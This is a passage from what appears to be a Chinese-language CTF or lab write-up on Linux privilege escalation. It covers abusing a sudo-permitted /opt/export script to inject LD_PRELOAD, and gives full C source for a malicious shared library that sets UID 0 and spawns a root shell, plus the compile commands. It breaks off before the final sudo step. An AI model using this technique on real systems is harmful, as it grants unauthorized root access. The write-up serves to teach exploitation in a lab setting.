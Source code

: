 1.  `welcome` 用户可以无需密码以 root 权限执行 `/opt/export`。这是提权的入口。
2.  `sudoers` 配置中包含 `env_reset`，这意味着通过 `sudo` 直接传递 `LD_PRELOAD` 环境变量（如 `sudo LD_PRELOAD=... /opt/export`）会被阻止。
3.  `/opt/export` 脚本本身存在一个**严重漏洞**：它将命令行参数直接用作 `export` 命令的参数，允许我们控制脚本内部设置的环境变量名称和值。
4.  脚本最后会执行 `/usr/local/sbin/VMBreaker`。

### 4.4. 利用策略 (Exploitation Strategy - Exploiting Script Argument Handling for LD_PRELOAD Injection)

我们的目标是利用 `/opt/export` 脚本的漏洞来设置 `LD_PRELOAD` 环境变量，从而劫持后续 `/usr/local/sbin/VMBreaker` 的执行流程。

计划：

1.  编写一个 C 文件 (`exp.c`)，包含一个构造函数 (`__attribute__((constructor))`)。这个函数会在库被加载时自动执行，其功能是设置 `uid` 和 `gid` 为 0，然后启动一个具有 root 权限的 shell (`/bin/bash -p`)。
2.  将 `exp.c` 编译成共享库文件 `/tmp/exp.so`。
3.  执行 `sudo /opt/export` 命令，巧妙地将 `LD_PRELOAD` 作为第一个参数 (`$1`)，将我们恶意库的路径 `/tmp/exp.so` 作为第二个参数 (`$2`) 传递给脚本。
4.  脚本执行到 `export "$1"="$2"` 时，就会在 **root 权限**下执行 `export LD_PRELOAD=/tmp/exp.so`。
5.  当脚本最后执行 `/usr/local/sbin/VMBreaker` 时，由于 `LD_PRELOAD` 环境变量已被设置，动态链接器会优先加载 `/tmp/exp.so`，从而执行我们的恶意代码，获得 root shell。

### 4.5. 执行利用 (Executing the Exploit)

1. **创建恶意 C 代码:**
   切换到可写目录 `/tmp`，创建 `exp.c` 文件。

   ```bash
   welcome@Neuroblue:~$ cd /tmp
   welcome@Neuroblue:/tmp$ cat << EOF > exp.c
   #define _GNU_SOURCE
   #include <stdio.h>
   #include <stdlib.h>
   #include <unistd.h>
   #include <dlfcn.h>
   
   // 构造函数，在库加载时自动执行
   void __attribute__((constructor)) _init() {
       unsetenv("LD_PRELOAD"); // 清理环境变量，避免影响子shell
       setuid(0);             // 设置UID为root
       setgid(0);             // 设置GID为root
       system("/bin/bash -p"); // 执行一个保留权限的root shell
       exit(0); // 执行完shell后退出，避免后续程序执行（可选）
   }
   EOF
   ```

2. **编译共享库:**
   使用 `gcc` 编译 C 代码为共享库。

   ```bash
   welcome@Neuroblue:/tmp$ gcc -fPIC -shared -o /tmp/exp.so /tmp/exp.c -nostartfiles
   welcome@Neuroblue:/tmp$ ls -l /tmp/exp.so
   -rwxr-xr-x 1 welcome welcome 14736 May  1 02:29 /tmp/exp.so # <-- 编译成功
   ```
